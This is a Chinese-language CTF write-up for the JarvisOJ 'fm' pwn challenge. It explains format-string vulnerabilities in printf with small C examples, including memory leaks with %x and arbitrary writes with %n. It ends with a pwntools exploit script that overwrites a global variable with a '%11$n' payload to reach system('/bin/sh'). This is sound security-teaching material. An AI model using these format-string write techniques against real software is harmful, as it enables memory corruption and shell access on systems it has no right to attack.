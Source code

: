 ```yaml
---
title: 61DCTF fm の Write-Up
date: 2020-09-08 16:08:05
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- 61DCTF
- Stack
---
```

## Introduction

程序运行截图：

![](/img/fm/fm1.png)

<!-- more -->

checksec发现存在Canary以及DEP保护：

![](/img/fm/fm2.png)

## Analysis

将程序通过IDA打开，首先是main函数：

![](/img/fm/fm3.png)

可以看到主函数里就已经存在`system("/bin/sh")`的语句，基本思路当然要满足跳转条件，执行该语句。

根据运行结果可以知道这个`x`在程序中被定为3，我们需要将其改为4。而在`printf(&buf)`这里存在典型的格式化字符串漏洞，通过该漏洞可以实现任意内存写入。

## Vulnerability

解题关键在于了解格式化字符串漏洞，而在了解这个漏洞之前，首先要了解一下printf函数（其他函数类似sprintf、fprintf等print家族函数都会存在同样的问题）。

printf函数用法是`printf(“格式化字符串”, 参数…)`，函数返回值是int类型，返回正确输出的字符个数。如果输出失败，返回负值。参数个数不确定，可以是多个，也可以没有参数。

prtintf函数的格式化字符串常见的有下面几种：

```
%a  浮点数、十六进制数字和p-记数法（c99
%A  浮点数、十六进制数字和p-记法（c99）
%c  一个字符(char)
%C  一个ISO宽字符
%d  有符号十进制整数(int)（%ld、%Ld：长整型数据(long),%hd：输出短整形。）　
%e  浮点数、e-记数法
%E  浮点数、E-记数法
%f  单精度浮点数(默认float)、十进制记数法（%.nf  这里n表示精确到小数位后n位.十进制计数）
%g  根据数值不同自动选择%f或%e．
%G  根据数值不同自动选择%f或%e.
%i  有符号十进制数（与%d相同）
%o  无符号八进制整数
%p  指针
%s  对应字符串char*（%s = %hs = %hS 输出 窄字符）
%S  对应宽字符串WCAHR*（%ws = %S 输出宽字符串）
%u  无符号十进制整数(unsigned int)
%x  使用十六进制数字0xf的无符号十六进制整数　
%X  使用十六进制数字0xf的无符号十六进制整数
%%  打印一个百分号
```

还有不常见的%n，会将%n之前打印出来的字符个数赋值给一个变量。此外还有%hn（写入目标空间2字节），%hhn（写入目标空间1字节），%lln（写入目标空间8字节）。

例如这样一个程序：

```C#
# include <stdio.h>
int main(){
  int n = 0;
  printf("test%n\n", &n);
  printf("n is %d\n", n);
  return 0;
}
```

程序编译运行之后输出的n是4。

接下来就可以去了解一下格式化字符串漏洞了。正确的printf函数用法应该是这样的：

```C#
#include <stdio.h>
int main(){
  int n = 6;
  printf("%d\n", n);
  return 0;
}
```

而有时候也会被省略成这样：

```C#
# include <stdio.h>
int main(){
  char a[] = "coldsnap";
  printf(n);
  return 0;
}
```

两种方式写法上没什么问题，但是当把字符串输入权交给用户时，就会造成严重的问题。考虑这样一个程序：

```C#
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	char s[100];
	scanf("%s", s);
	printf(s);
	return 0;
}
```

如果用户输入的不是正常的字符串，而是格式化字符串`%x%x`，则会输出内存中的数据：

![](/img/fm/fm4.png)

这是由于printf函数并不知道参数个数，在其内部有个指针，用来检索格式化字符串。对于特定类型的格式化字符串，去取相应参数的值，直到结束。所以尽管程序中没有参数，上面的代码也会将输入的fromat string后面的内存当作参数以%x即16进制方式输出，造成内存泄漏的问题。

通过内存泄露问题就要引申到任意内存读取的问题上，当然前提是需要确定局部变量是储存在栈中，这样理论上通过很多个`%x`就可以读到想要的内存位置。

也可通过`%< number>$x`是直接读取第number个位置的参数，同样可以用在%n，%d等等。

但是需要注意64位程序，前6个参数是存在寄存器中的，从第7个参数开始才会出现在栈中，所以栈中从格式化串开始的第一个，应该是`%7$n`。

甚至通过这个漏洞可以实现任意地址写入，需要用到linux自带的printf命令，将shellcode编码转义为字符。（注意用反引号将printf命令括住，反引号在Tab键的上面，反引号内的内容会被当做命令执行。）如果是用scanf输入字符串，则无法使用printf命令，只能对照ascii码表，scanf和命令行输入的shellcode编码不能直接被转义。

例如通过`"`printf '\x41\x41\x41\x41’`"`将0x41414141这个地址写入内存，下面只需用%s读取对应位置，就能读取以0x41414141为首地址的字符串。

如果用%n就能将0x41414141这个地址指向的值修改，就能造成任意内存的修改，可以将栈中返回地址修改为想要执行的shellcode的首地址等等。

这里要注意ASLR的问题。

## PWN

接下来就来继续分析刚开始那道题。

通过Analysis部分的分析，程序中存在格式化字符串漏洞。通过`x_addr%[i]$n`命令，可以将已经输出的字符个数写入到指定的参数中，这个格式化字符串会在栈上的某处，需要定位x_addr作为printf的第几个参数来确定[i]的值，由于x_addr在32位程序中刚好是4个字节，所以这个格式化字符串刚好能把相应参数变为4。

首先是main函数中的x位置，根据下图x_addr应该是0x804a02c：

![](/img/fm/fm5.png)

然后再确定偏移：

![](/img/fm/fm6.png)

将程序断在printf函数，发现输入的数据“aaaaaa”在栈上地址为0xffb171ec，原来数据的地址为0xffb171c0。两者地址差值便是偏移为44。这个程序是32位程序，每个格式化字符串位4字节，所以偏移数为11。

最后就是写脚本了：

```Python
from pwn import *

sh = process('./fm')
# sh = remote('pwn2.jarvisoj.com', '9895')

x_addr = 0x804a02c

payload = p32(x_addr) + "%11$n"

sh.sendline(payload)
sh.interactive()
sh.close()
```

脚本本地运行结果：

![](/img/fm/fm7.png)
